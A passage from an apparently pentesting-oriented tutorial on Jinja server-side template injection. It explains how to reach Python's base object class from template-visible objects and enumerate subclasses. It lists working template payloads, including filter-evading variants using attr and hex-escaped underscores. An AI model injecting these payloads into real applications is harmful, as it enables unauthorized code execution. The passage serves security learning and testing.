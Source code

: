 ```
```
```
## **Jinja Injection**

First of all, in a Jinja injection you need to **find a way to escape from the sandbox** and recover access the regular python execution flow. To do so, you need to **abuse objects** that are **from** the **non-sandboxed environment but are accessible from the sandbox**.

### Accessing Global Objects

For example, in the code `render_template("hello.html", username=username, email=email)` the objects username and email **come from the non-sanboxed python env** and will be **accessible** inside the **sandboxed env.**\
Moreover, there are other objects that will be **always accessible from the sandboxed env**, these are:

```
[]
''
()
dict
config
request
```
```
### Recovering \<class 'object'>

Then, from these objects we need to get to the class: **`<class 'object'>`** in order to try to **recover** defined **classes**. This is because from this object we can call the **`__subclasses__`** method and **access all the classes from the non-sandboxed** python env.

In order to access that **object class**, you need to **access a class object** and then access either **`__base__`**, **`__mro__()[-1]`** or `.`**`mro()[-1]`**. And then, **after** reaching this **object class** we **call** **`__subclasses__()`**.

Check these examples:

```python
# To access a class object
[].__class__
''.__class__
()["__class__"] # You can also access attributes like this
request["__class__"]
config.__class__
dict #It's already a class

# From a class to access the class "object".
## "dict" used as example from the previous list:
dict.__base__
dict["__base__"]
dict.mro()[-1]
dict.__mro__[-1]
(dict|attr("__mro__"))[-1]
(dict|attr("\x5f\x5fmro\x5f\x5f"))[-1]

# From the "object" class call __subclasses__()
{{ dict.__base__.__subclasses__() }}
{{ dict.mro()[-1].__subclasses__() }}
{{ (dict.mro()[-1]|attr("\x5f\x5fsubclasses\x5f\x5f"))() }}

{% raw %}
{% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}

# Other examples using these ways
{{ ().__class__.__base__.__subclasses__() }}
```